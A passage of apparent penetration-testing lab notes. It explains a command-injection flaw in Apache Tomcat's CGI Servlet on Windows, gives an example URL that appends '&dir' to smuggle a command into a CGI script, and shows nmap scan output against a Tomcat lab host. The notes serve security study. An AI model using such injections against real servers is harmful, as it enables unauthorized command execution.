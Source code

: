 * `action` parameter is set to `author`
  * script should search by author name
* `query` parameter specifies the search term "fitzgerald."

**problem arises when `enableCmdLineArguments` is enabled on Windows systems because the CGI Servlet fails to properly validate the input from the web browser before passing it to the CGI script.**

* For instance, an attacker can append `dir` to a valid command using `&` as a separator to execute `dir` on a Windows system.

```http
http://example.com/cgi-bin/hello.bat?&dir
```

* passes `&dir` as an argument to `hello.bat` and executes `dir` on the server.

## Enumeration

**Nmap - Open Ports**

```shell-session
nmap -p- -sC -Pn 10.129.204.227 --open 

Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-23 13:57 SAST
Nmap scan report for 10.129.204.227
Host is up (0.17s latency).
Not shown: 63648 closed tcp ports (conn-refused), 1873 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
22/tcp    open  ssh
| ssh-hostkey: 
|   2048 ae19ae07ef79b7905f1a7b8d42d56099 (RSA)
|   256 382e76cd0594a6e717d1808165262544 (ECDSA)
|_  256 35096912230f11bc546fddf797bd6150 (ED25519)
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
8009/tcp  open  ajp13
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
47001/tcp open  winrm

Host script results:
| smb2-time: 
|   date: 2023-03-23T11:58:42
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Nmap done: 1 IP address (1 host up) scanned in 165.25 seconds
```
